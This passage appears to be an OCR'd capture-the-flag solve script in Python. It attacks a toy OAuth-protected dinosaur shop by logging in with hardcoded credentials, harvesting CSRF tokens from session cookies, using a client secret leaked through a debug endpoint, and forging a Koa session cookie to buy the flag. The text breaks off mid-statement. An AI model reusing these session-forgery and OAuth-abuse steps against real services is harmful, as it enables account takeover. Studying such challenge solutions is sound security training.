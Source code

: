 ```python
print(base64.b64decode(session.cookies['koa:sess']))
state = json.loads(base64.b64decode(response.cookies['koa:sess']))[
    'oauthState']['state']


# login
print('\n[*] login ...')
callbackUri = base64.b64encode(
    f'http://{HOST}:3002/oauth/authorize?response_type=code&client_id=dinomaster_app&scope=user_info%3Aread%2Clist_dinos%2Cbuy_dino%2Csell_dino%buy_flagosaurus&redirect_uri=http%3A%2F%2F{HOST}%3A3001%2FreceiveGrant&state=os-{state}'.encode())
response = session.post(f'http://{HOST}:3002/oauth/login', data={
    "username": "nimda",
    "password": "nimda",
    "callback_uri": callbackUri
})
csrfToken_token = json.loads(base64.b64decode(response.cookies['koa:sess']))[
    'userConfirmCsrfToken']['token']
print(f'csrfToken_token: {csrfToken_token}')


# # authorize client
# # this info is found by fuzzing /oauth/ which leads to /oauth/debug. /oauth/debug has the client_id, scope, and client_secret required to get a code
print('\n[*] authorize ...')
response = session.get(
    f'http://{HOST}:3002/oauth/authorize?response_type=code&client_id=dinomaster_app&scope=user_info%3Aread%2Clist_dinos%2Cbuy_dino%2Csell_dino%2Cbuy_flagosaurus&redirect_uri=http%3A%2F%2F{HOST}%3A3001%2FreceiveGrant&state={state}&agree=true&csrfToken={csrfToken_token}', allow_redirects=False)
n = response.content.find(b'code')
code = response.content[n+5: n+45]
print(f'code: {code}')


# # get token
# # send a POST request to /oauth/token with the client code received from /oauth/debug
print('\n[*] get token ...')
headers = {'Content-type': 'application/x-www-form-urlencoded'}
data = {
    'grant_type': 'authorization_code',
    'client_id': 'dinomaster_app',
    'client_secret': 'this_is_the_dinomaster_client_secret',
    'code': code,
    'scope': 'user_info:read,list_dinos,buy_dino,sell_dino,buy_flagosaurus',
    'redirect_uri': f'http://{HOST}:3001/receiveGrant',
}
response = session.post(
    f'http://{HOST}:3002/oauth/token', headers=headers, data=data)
res_json = json.loads(response.content)
accessToken = res_json['access_token']
refreshToken = res_json['refresh_token']
expiresIn = res_json['expires_in']
print(f'accessToken:  {accessToken}')


# send a get req to 3001/buy_flagosaurus get flag
# koa session key is found in the html comments of /list_dinos
print('\n[*] get flag')
KOA_SESSION_KEY = b'NNSWK4C7PFXXK4S7NNXWCX3TMVZXGX3TNFTV643FMN2XEZI='
# edit the session key with the accessToken and refreshToken. base64 encode and put the koa:sess cookie here
session_data_json = json.loads(base64.b64decode(session.cookies['koa:sess']))
session_data_json['token'] = {"accessToken": accessToken,
```